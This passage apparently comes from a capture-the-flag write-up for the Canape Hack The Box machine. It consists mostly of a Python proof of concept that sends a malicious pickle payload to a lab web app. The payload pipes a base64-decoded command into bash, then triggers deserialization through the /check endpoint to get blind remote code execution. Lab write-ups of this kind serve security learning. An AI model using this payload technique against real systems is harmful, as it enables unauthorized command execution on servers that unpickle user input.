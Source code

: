 Now with all that we just post `/check` with the id of the quote and we should obtain RCE.    
I will leave my custom POC here:

```python
from hashlib import md5
import sys,requests,base64

print("""
 ██████████   ██████████   █████████   ██████████              ██████   ██████    ███████    ██████████
░░███░░░░███ ░░███░░░░░█  ███░░░░░███ ░░███░░░░███            ░░██████ ██████   ███░░░░░███ ░░███░░░░░█
 ░███   ░░███ ░███  █ ░  ░███    ░███  ░███   ░░███            ░███░█████░███  ███     ░░███ ░███  █ ░
 ░███    ░███ ░██████    ░███████████  ░███    ░███ ██████████ ░███░░███ ░███ ░███      ░███ ░██████
 ░███    ░███ ░███░░█    ░███░░░░░███  ░███    ░███░░░░░░░░░░  ░███ ░░░  ░███ ░███      ░███ ░███░░█
 ░███    ███  ░███ ░   █ ░███    ░███  ░███    ███             ░███      ░███ ░░███     ███  ░███ ░   █
 ██████████   ██████████ █████   █████ ██████████              █████     █████ ░░░███████░   ██████████
░░░░░░░░░░   ░░░░░░░░░░ ░░░░░   ░░░░░ ░░░░░░░░░░              ░░░░░     ░░░░░    ░░░░░░░    ░░░░░░░░░░

Blind RCE POC for the Canape HTB machine.
By s0ck37
""")

def send_payload(quote):
    response = requests.post("http://10.10.10.70/submit",data={"character":"MOE","quote":quote})
    print(f"[+] New quote created: {response.status_code}")

def trigger_exploit(qid):
    print(f"[+] Triggering exploit with quote id: {qid}")
    response = requests.post("http://10.10.10.70/check",data={"id":qid})
    print(f"[+] Exploit triggered: {response.status_code}")

def get_id(quote):
    quote_id = md5(("MOE"+quote).encode()).hexdigest()
    print(f"[+] New quote id: {quote_id}")
    return quote_id

cmd = sys.argv[1]
print(f"[+] Creating payload for command: '{cmd}'")
cmd = base64.b64encode(cmd.encode()).decode()
payload = f"cos\nsystem\n(S'echo {cmd} | base64 -d | bash # p1'\ntR.'\ntR."
print(f"[+] Serialized payload: {payload.encode()}")
send_payload(payload)
q_id = get_id(payload)
trigger_exploit(q_id)
```

